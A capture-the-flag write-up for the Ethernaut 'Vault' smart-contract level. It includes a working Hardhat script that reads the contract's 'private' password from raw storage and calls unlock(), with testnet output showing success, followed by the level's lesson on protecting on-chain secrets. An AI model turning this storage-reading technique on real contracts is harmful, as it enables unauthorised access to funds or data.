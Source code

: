 ```yaml
---
title: Ethernaut Vault
tags: [ethernaut]
style: border
color: primary
description: Ethernaut Vault challenge writeup
---
```


## Vault

### Challenge

Unlock the vault to pass the level!


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Vault {
  bool public locked;
  bytes32 private password;

  constructor(bytes32 _password) public {
    locked = true;
    password = _password;
  }

  function unlock(bytes32 _password) public {
    if (password == _password) {
      locked = false;
    }
  }
}
```

### Background

Private variables are not accessible by smart contracts, however, since the blockchain is public, anyone can check the value directly from the blockchain and use it.

### Attack

Somehow access the private `password` value from the public blockchain and use it to call the `unlock` function.

* Access the private `password` value from the blockchain
* Submit the `password` using to `unlock` function to unlock the vault

#### vault-solve.js

```javascript
const hre = require("hardhat");
const { ethers, upgrades } = require("hardhat");

async function main() {
    vaultAddress = "0x5F9f995f50C557073606266cdd86f148D72d9926";
    contract = await ethers.getContractAt("Vault", vaultAddress);

    const accounts = await hre.ethers.getSigners();
    account = accounts[0];

    console.log("Level address: " + contract.address)
    console.log("Vault locked : " + await contract.locked())

    // get private password value from storage
    paddedSlot = ethers.utils.hexZeroPad(1, 32);
    passwordBytes32 = await ethers.provider.getStorageAt(contract.address, paddedSlot);
    password = ethers.utils.toUtf8String(passwordBytes32)
    console.log("Password     : '" + password + "'")

    // submit password
    tx = await contract.connect(account).unlock(passwordBytes32)
    receipt = await tx.wait()

    console.log("Vault locked : " + await contract.locked())
    
}

main().catch((error) => {
    console.error(error);
    process.exitCode = 1;
});
```

```bash
$ npx hardhat run scripts/vault-solve.js --network rinkeby
Level address: 0x5F9f995f50C557073606266cdd86f148D72d9926
Vault locked : true
Password     : 'A very strong secret password :)'
Vault locked : false
```

### Success Message

It's important to remember that marking a variable as private only prevents other contracts from accessing it. State variables marked as private and local variables are still publicly accessible.

To ensure that data is private, it needs to be encrypted before being put onto the blockchain. In this scenario, the decryption key should never be sent on-chain, as it will then be visible to anyone who looks for it. [zk-SNARKs](https://blog.ethereum.org/2016/12/05/zksnarks-in-a-nutshell/) provide a way to determine whether someone possesses a secret parameter, without ever having to reveal the parameter.
